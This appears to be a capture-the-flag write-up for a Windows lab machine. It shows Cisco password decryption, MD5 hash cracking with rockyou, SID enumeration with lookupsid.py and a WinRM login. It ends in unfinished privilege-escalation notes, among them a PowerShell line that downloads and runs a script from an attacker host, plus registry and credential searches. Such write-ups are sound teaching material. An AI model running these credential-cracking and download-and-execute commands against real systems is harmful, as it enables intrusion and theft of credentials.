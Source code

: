 ![](./logo.png)

# USER

The box has exposed a `http` endpoint with a login page. On further inspection the page allows us to log on as a guest.

We are then redirected to a page with a support chat. On it is a link to a Cisco IOS config file. Via some searching it is found that the passwords present can be easily decrypted using this [page](http://www.ifm.net.nz/cookbooks/passwordcracker.html)

Meaning these:
```
[..]
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
[..]
```

Can be converted into these:
```
rout3r:$uperP@ssword
admin:Q4)sJu\Y8qz*A3?d
```

This is due to a trivially reverseable algorithm being used to 'encrypt' the passwords


```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

Cracking the level 5 password involves running it through rockyou. The command below was used:

```
openssl passwd -1 -salt <SALT> -table -in <rockyou.txt> | grep <hash_substring>
```

The cracking of this password gives:

```
stealth1agent	$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

This can be used with the username `hazard` to log into the SMB share.

This user only allows us access to the `IPC$` share. It contains no usefull files.

However, access to the SMB share allows us to use `lookupsid.py` to brute force SID values to enumerate new users.

```
$ ./lookupsid.py hazard@10.10.10.149 

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

This provides us with 3 more users!

With trail and error, it can be seen that chase works with the `winrm` shell.

https://github.com/Hackplayers/evil-winrm


```
chase:Q4)sJu\Y8qz*A3?d
```

This lets us obtain a powershell on the box to grab the `user.txt`!

# ROOT

On the desktop there is a `todo.txt`.

```
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```


Need to check what is running???


powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.55:8000/PowerUp.ps1'); Invoke-AllChecks"


REG QUERY HKLM /F "password" /t REG_SZ /S /K

cmdkey /list